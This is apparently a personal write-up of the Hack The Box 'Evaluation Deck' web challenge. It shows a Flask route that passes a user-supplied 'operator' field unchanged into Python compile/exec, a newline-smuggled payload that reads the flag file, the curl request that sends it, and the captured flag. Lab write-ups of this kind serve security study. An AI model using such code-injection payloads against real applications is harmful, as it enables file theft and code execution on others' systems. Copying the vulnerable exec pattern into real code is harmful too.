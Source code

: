 
202210251336
Status:: #ctf
Tags: [[hack_the_boo]]

# Hack_the_boo_evaluation_deck
Platform: *hackthebox*
event: *hack the boo*
type: *web*
task: *A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?*
flag: **HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}**

# steps

### File tree of challenge:
```
.
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── card.css
│   │   │   │   ├── game.css
│   │   │   │   └── index.css
│   │   │   ├── images
│   │   │   │   ├── alive.gif
│   │   │   │   ├── bottom-circle.png
│   │   │   │   ├── card10.png
│   │   │   │   ├── card11.png
│   │   │   │   ├── card12.png
│   │   │   │   ├── card13.png
│   │   │   │   ├── card14.png
│   │   │   │   ├── card15.png
│   │   │   │   ├── card16.png
│   │   │   │   ├── card17.png
│   │   │   │   ├── card18.png
│   │   │   │   ├── card19.png
│   │   │   │   ├── card1.png
│   │   │   │   ├── card20.png
│   │   │   │   ├── card2.png
│   │   │   │   ├── card3.png
│   │   │   │   ├── card4.png
│   │   │   │   ├── card5.png
│   │   │   │   ├── card6.png
│   │   │   │   ├── card7.png
│   │   │   │   ├── card8.png
│   │   │   │   ├── card9.png
│   │   │   │   ├── card_back.png
│   │   │   │   └── dead.gif
│   │   │   └── js
│   │   │       ├── card.js
│   │   │       ├── jquery-migrate-1.2.1.js
│   │   │       ├── jquery.min.js
│   │   │       └── ui.js
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
├── Dockerfile
└── flag.txt
```
### endpoints:
- `/`
- `/api/get_health`

### Game logic 
Dealing damage to ghost is done by sending json data in `POST` request to `/api/get_health`.
```
curl -X POST  142.93.39.188:32614/api/get_health -H 'Content-Type: application/json' -d '{"current_health":"100","attack_power":"32","operator":"+"}'
{"message":132}
```

Method called on this request:

```python
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

Using browser inspector we can see what json body looks like:
```json
{"current_health":"100","attack_power":"32","operator":"+"}
```

### Exploiting
This method call's function `compile`.
Where `operator` variable is passed unchanged, hence we just have to send python file read code as `operator` string:
```python
"\nresult = open(\"../flag.txt\","r\").readline()\nr="
```
Here new line symbol `\n` is used to make our file  reading a separate operation.

Request to get file is:
```bash
curl -X POST  142.93.39.188:32614/api/get_health -H 'Content-Type: application/json' -d '{"current_health":"1","attack_power":"32","operator":"\nresult = open(\"../flag.txt\", \"r\").readline()\nr="}'
```
Response with flag:
```bash
{"message":"HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}"}
```
